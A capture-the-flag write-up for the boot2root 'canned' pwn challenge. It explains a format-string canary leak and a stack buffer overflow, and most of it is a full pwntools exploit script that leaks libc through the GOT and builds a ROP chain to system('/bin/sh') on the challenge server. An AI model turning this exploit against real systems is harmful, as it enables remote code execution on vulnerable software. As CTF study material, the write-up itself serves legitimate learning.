

## boot2root CTF: canned [pwn]


#### There were two vulnerabilities for this challenge, the first one being a format string vuln where unsanitized input is passed to printf and the second being a stack buffer overflow. We couldn't simply control the instruction pointer since a stack canary is present. 

#### The plan then becomes clear; we need to leverage the format string vulnerability to print out the value of the stack canary which is stored somewhere in the stack, proceed to fill out the buffer and bypass the stack canary check to perform a system('/bin/sh') ropchain.

```python
from pwn import *

#p = process('./canned')
binary = ELF('./canned', checksec = False)
breakpoints = ['break *main + 137', 'break *main + 211']
#gdb.attach(p.pid, gdbscript = '\n'.join(breakpoints))
p = remote("35.238.225.156", 1007)

#: leak canary
print(p.recvuntil('please\n'))
p.sendline('AAAABBBB %15$p')
canary_leak = int(p.recvuntil('\n').split()[1], 16)
print('[*] canary_leak: ' + hex(canary_leak))
print(p.recv())

#: ROP
pop_rdi = 0x00000000004012bb
ret = 0x0000000000401016

exploit = cyclic(24)
exploit += p64(canary_leak)
exploit += cyclic(8)
exploit += p64(pop_rdi)
exploit += p64(binary.got['setvbuf'])
exploit += p64(binary.symbols['puts'])
exploit += p64(binary.symbols['main'])
p.sendline(exploit)

print(p.recvuntil('bye\n'))
setvbuf_leak = u64(p.recvuntil('\n').split()[0].ljust(8, '\x00'))
print(p.recvuntil('please\n'))
print('[*] setvbuf_leak: ' + hex(setvbuf_leak))

p.sendline("AAAABBBB %15$p")

#: third stage
libc = ELF('./libc6_2.27-3ubuntu1.3_amd64.so', checksec = False)
libc_base = setvbuf_leak - libc.symbols['setvbuf']
print('[*] libc_base: ' + hex(libc_base))

exploit = cyclic(24)
exploit += p64(canary_leak)
exploit += cyclic(8)
exploit += p64(ret)
exploit += p64(pop_rdi)
exploit += p64(libc_base + libc.search('/bin/sh').next())
exploit += p64(libc_base + libc.symbols['system'])

p.sendline(exploit)
p.interactive()
```
